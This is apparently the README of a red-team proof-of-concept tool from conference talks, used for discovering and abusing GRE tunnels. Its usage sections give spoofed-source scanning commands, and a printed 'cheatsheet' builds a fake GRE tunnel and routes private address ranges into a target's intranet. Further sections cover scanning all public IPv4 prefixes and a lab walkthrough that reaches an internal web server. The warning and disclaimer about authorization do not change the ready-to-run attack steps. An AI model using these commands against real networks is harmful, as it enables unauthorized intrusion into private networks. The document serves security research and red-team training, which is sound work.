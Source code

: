 # GRE tunnel Scanner
## ⚠️⚠️⚠️ IMPORTANT ⚠️⚠️⚠️
### ⚠️This tool includes spoofing source IP addresses. Please ensure you have legal authorization to use it.⚠️
## Reference
- This is a PoC code for Talks: From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion
    - [Black Hat USA 2025 Briefing](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 Main Stage](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)

## Prepare

local:

- `pip3 install requirement.txt`

## Usage - container

```bash
sudo podman build -t gretap .

sudo podman run -it --name gretap \
    --net=host --cap-add=net_admin --cap-add=net_raw --cap-add=sys_nice \
    --device /dev/net/tun \
    -v /etc/resolv.conf:/etc/resolv.conf:ro \
    -d gretap

sudo podman exec -it gretap /bin/bash

python3 main.py -i <interface> -lh <your_public_IP> -s <gre_src_ip_subnet or ip_list_file> -d  <gre_dst_ip_subnet or ip_list_file> -o <logfile>
```

## Example

- for example `1.1.1.1` and `2.2.2.2` has gre tunnel you are `3.3.3.3`
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2
INFO - sending gresrc 1.1.1.1, gredst 2.2.2.2
CRITICAL - Received reply from 2.2.2.2 GRE peer: 1.1.1.1
```
- And get how to abuse GRE tunnel
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2 -sch -l3
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=eth0
MYPUBIP=3.3.3.3
SRCADDR=1.1.1.1
DSTADDR=2.2.2.2
ip addr add  $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280

## route possible private ip ##
ip r add 10.0.0.0/8 dev gre1 src $MYPUBIP
ip r add 172.16.0.0/12 dev gre1 src $MYPUBIP
ip r add 192.168.0.0/16 dev gre1 src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! gretap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16

### cleanup ###
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```

- if you know the endpoint but don't know the peer address you can do somethin like this
  - `python3 main.py  -i eth0 -l3 -lh 3.3.3.3 -s 1.1.1.0/24 -d 2.2.2.2 -id 8.8.8.8`
  - you well get reply from 8.8.8.8 while you get the right peer

- default setting about 500 package/sec.
## options
- `-sch`: Show Cheetsheet and exit (Input -i -lh -s -d which you found then get abuse GRE tunnel command)
- `-l3`: Layer 3 tunnel interface (Default: False)
- `-r`: Place GRE dest IP infomation in ICMP (Default: Place GRE src IP infomation)
- `-ss`: Save and use status file (the last scan will resume) (Default: False)
  - Recommend "on" in mass scan system sometime kill the script
- `-i <interface>`: Interface to send package
- `-s <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as GRE src
- `-d <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as GRE dst
- `-L <file>`: scan a list of GRE peers
  - file every line look like this `1.1.1.1,2.2.2.2`
- `-lh <ip>`: A IP on your pubilc interface (the IP on -i interface)
- `-o <file>`: Log file path
- `-t <float>`: Wait how many second after GRE packet send (Default: 2)
- `-T <int>`: How many thread send GRE packet in same time (Default: 255)
- `-cs <int>`: Send how many ip until start wait for ping to responsed (default: 1000)
- `-dp`: Do private - scan private ip GRE (Default: False)
- `-id <ip>`: Inside ICMP dst address (Default: same as GRE dst) 
  - Use this if you know the inside intranet address
- `-v <log_level>`: Logging level `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (Default: INFO)
  - GRE peer found log is on `CRITICAL`


## better way to scan full public ip
```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i  <interface> -lh <your_public_IP> -s aggrv4table.txt -d <your_target> -ss
```

## Lab
### Scan GRE tunnel
`python3 main.py -i <iface> -lh <your_ip> -s 1.1.1.1 -d 160.25.104.199`
### Access & Scan intranet
```
#### Create Fake Tunnel ####
IFACE=eth0  #change this 
MYPUBIP=9.9.9.9  #change this
GATEWAY=1.2.3.4 #change this
SRCADDR=1.1.1.1 # lab info don't change
DSTADDR=160.25.104.199 # lab info don't change
ip addr add $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE via $GATEWAY src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280
### start scan intranet ###
fping -g 192.168.0.0/16

##### scan output #####
# 192.168.1.2 is alive

## test curl to web ##
curl 192.168.1.2
# YOU KNOW GRE!

#### cleanup ####
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```


## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
